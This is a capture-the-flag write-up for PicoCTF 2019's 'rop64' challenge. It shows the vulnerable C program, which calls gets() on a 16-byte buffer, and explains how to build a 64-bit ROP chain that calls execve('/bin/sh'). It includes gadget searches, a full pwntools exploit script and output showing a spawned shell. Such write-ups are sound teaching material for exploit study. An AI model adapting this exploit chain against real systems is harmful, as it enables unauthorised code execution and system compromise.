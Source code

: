 ```yaml
---
title: ROP 64 bits - execve syscall
description: Exploiting a buffer overflow and using ROP to call execve.
---
```


# ROP 64 bits - execve syscall

## Summary

Exploiting a buffer overflow and using ROP to call `execve`.

## Challenge

### Statement

!!! note ""
    Challenge : `rop64` from PicoCTF 2019.

Time for the classic ROP in 64-bit. Can you exploit this [program](https://2019shell1.picoctf.com/static/8bda0ef23a9ca5c2f395a039006dd5f7/vuln) to get a flag?

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("Can you ROP your way out of this?\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

## Answer

As you can see, we can exploit a buffer overlow on the `gets(buf)` function.

The goal here is to call `execve` with the argument `/bin/sh`.

```
int execve(const char *filename, char *const argv[], char *const envp[]);
```

To do this we can look up at the [syscalls list](https://syscalls.w3challs.com/?arch=x86_64) for x86_64 architecture. The function `execve` is the number `59` and takes 3 arguments. In 64 bits architecture, arguments are passed via registers.

**Goal :**
```
rax = 0x3b      ; 'execve' syscall id, 0x3b = 59
rdi = /bin/sh   ; Pointer to "/bin/sh" string in memory.
rsi = 0         ; No argument
rdx = 0			; No argument

Then, execute syscall.
```

To find the **padding** of the buffer overflow, I use the `cyclic` and `find_cyclic` functions of the pwntools library.

To set `rax` (or another register to a specified value) to `0x3b` we can use two methods :

1. Using the stack :
	1. `push 0x3b`, add `0x3b` on the stack
	2. `pop rax`, pop `0x3b` into `rax`
2. Using bitwise operations :
	1. `xor rax, rax`, set `rax` to 0
	2. `add rax, 3`, add 3 to `rax` (repeat this 19 times, 19*3=57)
	3. `add rax, 2`, add 2 to `rax` (57+2 = 59 = 0x3B).

To set `rsi` and `rdx` to 0, we will use the stack.

To set `rdi` to a pointer of the `/bin/sh` string in memory, we need to find a writable address. Inside `gdb`, we can use the `vmmap` command to show the range of addresses that are writable. In our case, we will use the first writable address, `0x00000000006b6000`.

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/.../rop64/vuln
```

We will use the instruction `mov qword ptr [rax], rdx` to write `/bin/sh` into `0x00000000006b6000`, with `rax` equals to `0x00000000006b6000` and `rdx` to `/bin/sh`.

To find all the gadgets addresses, I use [ropper](https://github.com/sashs/ropper).

```bash
$ ropper -f vuln --search 'pop rdx; ret;'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdx; ret;

[INFO] File: vuln
0x000000000044bf16: pop rdx; ret;
```

We are now able to write our python solver script.

**Source code (solve.py) :**

```python
#!/usr/bin/env python3
from pwn import process, p64, cyclic, cyclic_find, log

# context
PROGRAM = "./vuln"

def find_padding_size():
    proc = process(PROGRAM)
    pattern = cyclic(32)

    proc.sendlineafter(b"Can you ROP your way out of this?\n", pattern)
    proc.wait()

    core = proc.corefile
    seg_addr = int(f"0x{hex(core.fault_addr)[-8:]}", 16)

    return cyclic_find(seg_addr)


"""
0x0000000000444c50: xor rax, rax; ret;
0x00000000004749c0: add rax, 1; ret;
0x00000000004749b7: add rax, 2; ret;
0x00000000004749d0: add rax, 3; ret;

0x000000000048d341: mov qword ptr [rax], rdx; ret;

0x00000000004156f4: pop rax; ret;
0x0000000000400686: pop rdi; ret;
0x00000000004100d3: pop rsi; ret;
0x000000000044bf16: pop rdx; ret;

0x000000000040123c: syscall;
"""

# padding size
padding_size = find_padding_size()
log.info(f"Padding size : {padding_size}")

# gadgets
xor_rax   = p64(0x0000000000444c50)
add_rax_2 = p64(0x00000000004749b7)
add_rax_3 = p64(0x00000000004749d0)
pop_rax   = p64(0x00000000004156f4)
pop_rdi   = p64(0x0000000000400686)
pop_rsi   = p64(0x00000000004100d3)
pop_rdx   = p64(0x000000000044bf16)
bin_sh    = b"/bin/sh\x00"
syscall   = p64(0x000000000040123c)
writable_memory = p64(0x00000000006b6000)
write_memory_into_rax = p64(0x000000000048d341)

# padding
buf = b"A" * padding_size

# write "/bin/sh" string into memory
buf += pop_rdx
buf += bin_sh
buf += pop_rax
buf += writable_memory
buf += write_memory_into_rax

# set rax to '0x3b' (execve syscall id)
"""
buf += pop_rax
buf += p64(0x3b)
"""
buf += xor_rax
buf += add_rax_3 * 19
buf += add_rax_2 * 1

# set 'rdi' to '/bin/sh' address pointer
buf += pop_rdi
buf += writable_memory

# set 'rsi' to 0 
buf += pop_rsi
buf += p64(0)

# set 'rdx' to 0
buf += pop_rdx
buf += p64(0)

# syscall
buf += syscall

proc = process(PROGRAM)
proc.sendlineafter(b"Can you ROP your way out of this?\n", buf)
proc.interactive()
```

**Execution :**

```bash
$ python3 solve.py
[+] Starting local process './vuln': pid 14552
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 14552)
[+] Parsing corefile...: Done
[*] '/home/.../rop64/core.14552'
    Arch:      amd64-64-little
    RIP:       0x400b6e
    RSP:       0x7ffcdaa49cd8
    Exe:       '/home/.../rop64/vuln' (0x400000)
    Fault:     0x6161616861616167
[*] Padding size : 24
[+] Starting local process './vuln': pid 14566
[*] Switching to interactive mode
$ id
uid=1000(xanhacks) gid=1000(xanhacks) groups=1000(xanhacks),995(audio),998(wheel)
```